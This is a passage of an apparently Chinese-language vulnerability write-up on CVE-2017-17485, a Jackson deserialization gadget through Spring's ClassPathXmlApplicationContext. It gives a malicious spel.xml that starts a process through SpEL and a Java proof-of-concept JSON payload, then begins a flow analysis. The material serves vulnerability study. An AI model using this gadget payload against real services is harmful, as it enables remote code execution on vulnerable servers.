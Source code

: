 ```xml
  </build>
</project>
```

Spel.xml:

```java
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

Poc:

```java
package ApplicationContext;

import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.IOException;

public class POC {
    public static void main(String[] args)  {
        //CVE-2017-17485

        String payload = "{\"object\":[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8000/spel.xml\"]}";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        try {
            mapper.readValue(payload, Another.class);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```



## 流程分析

分两个部分,第一个部分是如何调用我们的带参Constructor,第二个部分则是如何触发我们的命令执行的,这后面呢实际上是一个spel表达式注入

### 第一部分

调用BeanDeserializer来解析![image-20211029153648747](ClassPathXmlApplicationContext/image-20211029153648747.png)
